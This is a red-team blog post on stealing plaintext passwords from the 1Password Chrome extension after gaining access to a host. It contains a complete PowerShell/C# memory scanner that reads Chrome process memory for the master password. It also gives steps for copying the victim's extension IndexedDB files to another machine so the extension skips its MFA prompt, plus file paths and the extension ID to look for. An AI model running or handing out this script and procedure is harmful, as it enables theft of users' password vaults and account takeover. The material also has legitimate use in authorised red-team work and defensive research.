

# **1Password Chrome Extension Post-Ex**


### tl;dr

If an operator lands on a host with the 1Password Chrome Extension it is relatively easy to obtain the plaintext passwords stored in the vault. Using the local indexedDB you can "avoid MFA" (it is by design) on 1Password's Chrome Extension. None of this will be new or groundbreaking, I think it is just an area operators might not be looking. 

### Introduction

Red Teaming boiled down is always: get access -> pivot -> get more access until you get where you need to -> plunder. With everything moving to the magical cloud; browsers, and by proxy browser extensions can become single points of failure. So I wanted to think of ways to make life of post-execution easier in obtaining passwords now that well known methods like cookies/lsass are significantly harder to obtain.

With the [rise in use in password managers](https://www.forbes.com/sites/tonybradley/2024/10/24/password-managers-the-essential-defense-against-todays-cyber-threats/) and the secrets they contained I felt that this would be a good start. I chose 1Password because I am a customer but also have to assume almost all password manager extensions suffer from similar "flaws" as there has to be a way to obtain passwords locally/offline. For example, local KeePass DB's use [DPAPI in memory](https://keepass.info/help/base/security.html) once the safe is unlocked. 

### Obtaining Master Password

Obtaining the Master Password is the most difficult step of this attack chain. You could [install a chrome extension](https://syntax-err0r.github.io/Silently_Install_Chrome_Extension.html) or keylog the host or prompt the user, etc.

For this blog we will be scraping Chrome's memory for a string that often aligns with the MasterPassword once it is entered (again--[not new](https://www.cyberark.com/resources/threat-research-blog/extracting-clear-text-credentials-directly-from-chromium-s-memory) ). In my testing on an up to date Windows 11 and chrome this script/method seems to work more than 80% of the time and is usually preceeded by “p.” but I have seen it elsewhere as well.



```
Add-Type -TypeDefinition @"
using System;
using System.Text;
using System.Runtime.InteropServices;

public class MemoryScanner
{
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int dwSize, out int lpNumberOfBytesRead);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern int VirtualQueryEx(IntPtr hProcess, IntPtr lpAddress, out MEMORY_BASIC_INFORMATION lpBuffer, uint dwLength);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool CloseHandle(IntPtr hObject);

    [StructLayout(LayoutKind.Sequential)]
    public struct MEMORY_BASIC_INFORMATION
    {
        public IntPtr BaseAddress;
        public IntPtr AllocationBase;
        public uint AllocationProtect;
        public IntPtr RegionSize;
        public uint State;
        public uint Protect;
        public uint Type;
    }

    public static string ScanMemory(int processId, string searchString, int extraCharacters)
    {
        const int PROCESS_QUERY_INFORMATION = 0x0400;
        const int PROCESS_VM_READ = 0x0010;
        IntPtr processHandle = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, false, processId);

        if (processHandle == IntPtr.Zero)
        {
            return "Failed to open process.";
        }

        IntPtr address = IntPtr.Zero;
        MEMORY_BASIC_INFORMATION mbi;
        byte[] searchBytes = Encoding.Unicode.GetBytes(searchString);

        while (VirtualQueryEx(processHandle, address, out mbi, (uint)Marshal.SizeOf(typeof(MEMORY_BASIC_INFORMATION))) != 0)
        {
            if (mbi.State == 0x1000 && (mbi.Protect & 0x04) != 0) // MEM_COMMIT & readable pages
            {
                byte[] buffer = new byte[(int)mbi.RegionSize];
                int bytesRead;
                if (ReadProcessMemory(processHandle, mbi.BaseAddress, buffer, buffer.Length, out bytesRead) && bytesRead > 0)
                {
                    for (int i = 0; i <= buffer.Length - searchBytes.Length; i++)
                    {
                        bool match = true;
                        for (int j = 0; j < searchBytes.Length; j++)
                        {
                            if (buffer[i + j] != searchBytes[j])
                            {
                                match = false;
                                break;
                            }
                        }
                        if (match)
                        {
                            int totalBytesToExtract = searchBytes.Length + (extraCharacters * 2); // Unicode is 2 bytes per char
                            if (i + totalBytesToExtract > buffer.Length)
                            {
                                totalBytesToExtract = buffer.Length - i; // Ensure we don't go out of bounds
                            }

                            string extractedText = Encoding.Unicode.GetString(buffer, i, totalBytesToExtract);
                            CloseHandle(processHandle);
                            return extractedText;
                        }
                    }
                }
            }
            address = new IntPtr(mbi.BaseAddress.ToInt64() + mbi.RegionSize.ToInt64());
        }

        CloseHandle(processHandle);
        return "String not found.";
    }
}
"@ -Language CSharp

function Search-ProcessMemory {
    param (
        [int]$TargetPID,  # Using a non-reserved variable name
        [string]$SearchString,
        [int]$ExtraCharacters = 20  # Number of extra characters to extract after the match
    )

    $process = Get-Process -Id $TargetPID -ErrorAction SilentlyContinue
    if ($process) {
        Write-Host "Scanning memory of process: $($process.ProcessName) (PID: $($process.Id))"
        $result = [MemoryScanner]::ScanMemory($process.Id, $SearchString, $ExtraCharacters)
        Write-Host $result
    } else {
        Write-Host "Process with PID $TargetPID not found."
    }
}

$chromeProcesses = Get-Process chrome -ErrorAction SilentlyContinue
$SearchString = "Enter your password"

foreach ($proc in $chromeProcesses) {
Search-ProcessMemory -TargetPID $proc.id -SearchString $SearchString -ExtraCharacters 500 }

```

### The Curious Case Of MFA

While perusing 1Passwords [support documents](https://blog.1password.com/should-protect-1password-with-2fa/) on MFA I noticed the line "When turned on, a second factor will be required to add your account on a new device, in addition to your 1Password account password and Secret Key.”. The word “new” was interesting to me. I knew from reversing the extension there was an associated device identifier but what if we can mimic/copy that id? I am sure there is some complicated checks/hashes/etc. that go into it but what I realized was if we copy over the local extension files the chrome extension saw the same device identifier, which means no MFA prompt or alerting to the user. 

Steps to reproduce:

- Install Chrome in fresh VM
- Install the 1Password Extension for Chrome
- Copy over ‘%localappdata%\Google\Chrome\User Data\Default\IndexedDB\chrome-extension_aeblfdkhhhdcdjpifhhbdiojplfjncoa_0.indexeddb.leveldb’ and everything underneath to the VM from the victim's machine 
- Enter in the MasterPassword


### Conclusions

If you are an operator and land on a machine it is worth your while to check to see if '%localappdata%\Google\Chrome\User Data\Default\Extensions\aeblfdkhhhdcdjpifhhbdiojplfjncoa' exists. I also want to be clear--this is not a knock on 1Password as I believe in the product (although it would be nice to add a feature to require MFA at every login). Again, none of this is new or novel or ultimately a vulnerability, we are just abusing legitimate features of software but the payout for an operator could be big. 

### Future Work

I think that once the local DB is decrypted on the victim machine there might be a way to obtain these from the IndexedDB despite the file lock without knowing the MasterPassword
